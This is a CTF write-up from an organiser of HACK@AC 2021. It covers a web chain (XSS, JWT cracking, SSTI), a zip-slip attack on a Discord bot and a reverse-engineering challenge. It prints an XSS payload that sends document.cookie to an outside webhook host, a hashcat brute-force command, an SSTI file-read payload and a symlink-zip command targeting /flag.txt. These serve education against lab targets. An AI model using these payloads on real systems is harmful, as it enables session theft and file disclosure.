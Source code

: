 #HACK@AC 2021 Writeups by samuzora

HACK@AC is a CTF organized by the Anglo-Chinese School (Independent) Robotics Technology Society, held on 16 Oct 2021. I was part of the organizing team and made a grand total of 4 challenges (one got removed later on). It was generally quite a fun experience for all (excluding !help) and I learnt quite a bit from organizing this CTF, from dockerizing applications to debugging trivial typos. Below are writeups for some of the challenges, both made by me and by others.

[Web](#web)

[Misc](#misc)

[Unreleased](#unreleased)




## Web

### FatherBoat

Difficulty: Hard

Solves: 0 :<

Link: http://139.59.124.129:51000/

Description: You've heard of Mothership but have you heard of FatherBoat? Due to Mothership stealing all their visitors, the company couldn't make enough revenue to hire a good web dev. Before he left, he might have screwed over some stuff... Don't be too harsh on them please.

Author: Lucas

Intended Solution:
1. XSS
  Payload: `<script>fetch("https://webhook.site/unique-id/?c="+document.cookie)</script>`
  Explanation: The website tells us that one requires approval from the admin to post a story. Instead of getting approval from the admin, one can instead be the admin and thus bypass the approval process, especially since the admin seems to be sleeping/braindead. XSS is possible here as the story of the user is injected directly into the HTML DOM. The cookie is `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ImZhbHNlIn0.OqbksdUdBezk8bCqbh7wJOBuHFIKGoKGkdbAiu9SiJk`
2. Hashcat
  Payload: `./hashcat.exe -a 3 -m 16500 ./.hash --increment ?l?l?l?l?l?l`
  Explanation: After obtaining the token from the admin and checking it out with jwt.io, it seems like even the admin isn't an admin, which sucks tbh. (blame it on the dev) So we have to crack the JWT secret. Luckily for us, the secret isn't very long, so it can be cracked easily using Hashcat (6 lowercase chars). The key is "father".
3. SSTI
  Payload: `{{get_file('flag.txt')}}`
  Explanation: After verifying ourselves as the admin, we can successfully submit stories. However, upon submitting a story, the website prompts us that "Server-side story sharing" has yet to be implemented. This is a direct hint towards Server Side Template Injection (SSTI), so one can test for possible SSTI with ``{{7*7}} or {{7*'7'}}``. Then at a loss of what exactly to do, one might attempt `{{config.items()}}` and stumble upon 2 important key-value pairs: `('BUILT_IN', 'get_file()'), ('FLAG', 'flag.txt')`. Afterwards it's easy, just `{{get_file('flag.txt')}}` to get the flag, `ACSI{gr4ndf4th3r_v3ssel}`.

Comments:

This challenge was made quite last minute, as we were kinda short of hard web challenges. The puppeteer was especially hard to set up. Originally I tried using the Python import of puppeteer, pyppeteer, but it turned out to be a nightmare. Afterwards I just set up an API for the JS puppeteer and the Python flask app to interact. According to inside info, HCI had already solved the XSS part, but they realized it was a multi-part challenge and just gave up :(. Hence 0 solves

## Misc

### !help

Difficulty: ~~Medium~~ **HARD**

Solves: 3 (all HCI btw)

Description: There's a bot in the CTF discord that seems unusually quiet. Maybe try DMing it? I hear he gives flags...

Author: Lucas

Intended Solution:

**Zip Slip**

The intended (obvious) solution was to exploit the fact that the bot only accepted .zip files in the !upload command. Admittedly, without sufficient experience this might have been hard to spot, but granted that the participants were allowed to google I thought that this wouldn't be too difficult. Anyway, the 2-liner command to generate the symlink and zip it is as follows: `ln -s /flag.txt link; zip -y payload.zip link`. Then !upload `payload.zip` and the bot will return the flag, `ACSI{symb0l1c_link5}`. For more info, click [here](https://snyk.io/research/zip-slip-vulnerability).

Comments:

I really underestimated the difficulty of this challenge. Originally, it was a much simpler and much easier directory traversal via the !image command which allows one to view any image/file in the bot's machine. However, *a certain person* said it was too easy and suggested a zip slip vulnerability instead. Sorry to all who attempted this challenge, I've heard your cries for *!help*, and will tone down the difficulty of similar challenges in the future. For the record, a total of 3 hints were given for this challenge, and a 4th would have been given had a certain flag hoarder from HCI not submitted his flag.

## Unreleased

### revnew (RE)

Difficulty: HARD

Solves: NA

Description: NA

Author: Elijah

Solution:

(According to Elijah, I can just ignore all the mallocs so here goes nothing.) Decompile the provided binary in IDA64. First important line is `scanf("%s", s);`, this just takes in the user input into `s`. Also we have `srand(0x10F2Cu);`, which sets the seed to 69420 in decimal. Next is `v67 = 8 * ((unsigned __int64)&v9[7] >> 3);`, which apparently makes `v67` a pointer to `s` (idk how). Afterwards we have a for loop, which loops through `s` and calls `(rand() % 21 + 69) * s[i]` into v25. Note that the output of rand() can be replicated as the seed is known. Then `s[i] = v25`. Then `  strcpy(v23, "01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000");` just means that v23 is set to `01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000` (important btw). Now we have another loop, which just loops through `s` and `dest += hex(s[i])`. Skipping through 25+ lines of arbitrary mallocs wait nvm we can't skim through cos the important statements are here and there... Brief summary: 

```v24 = unhex(dest)
v18 = binary(v24)
v6 = len(v18)

v6 = len(v24)
v12 = str(v18+2)[:(v6-7)]
v15 += v12
``` 
Lastly, we come to a very primitive XOR gate, where v23 is xored with v15 to get our output. Pseudocode (python-like) of what just happened: 
```s = input()
random.seed(69420)
v28 = 0
v69 = len(s)
v68 = v69 -1
v67 = 8 * (0 right shift 3)

for i in range(v69):
    v4 = rand()
    v25 = v4 % 21 + 69
    v25 = s[i] * v25
    v5 = v25
	s[i] = v5

v23 = "01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000"

dest = ''

for i in range(v69):
	src = hex(s[i])
    dest += src

v24 = unhex(dest)
v18 = binary(v24)
v6 = len(v18)

v6 = len(v24)
v12 = str(v18+2)[:(v6-7)]
v15 += v12

if v36 >= v35:
    v33 = v36
else:
    v33 = v35

for i in range(v33):
    if v23[i] == v15[i]:
		v9[i] = '0'
    else:
		v9[i] = '1'

print(v9)
```

The way to approach this problem is to work backwards with what we have. So assuming the start of the output we want is ACSI{, we can work backwards to find out that `dest = 1d26 2730 22...` in hex. Afterwards, an RNG script was written in C to replicate `v4 = rand()`. Then converting each byte in `dest` to decimal and dividing it by the respective `v4`s, we obtain `[r` in binary converted to ASCII. Wait did I mention that `strcpy(s, "[redacted]");` was important? `strcpy(s, "[redacted]");` is important. Now, realize that Elijah is a sadist who likes to watch people suffer with the key right under their nose and decompile horrendous C code with mallocs littered everywhere and the correct input is actually `[redacted]`, so go ahead and input that to obtain the flag, `ACSI{th3_he4p_1s_a_1ie}`. Overall this challenge was ~~A NIGHTMARE THAT I SPENT 2 WEEKS ON~~ pretty easy. I hope you understand why this challenge was unreleased.
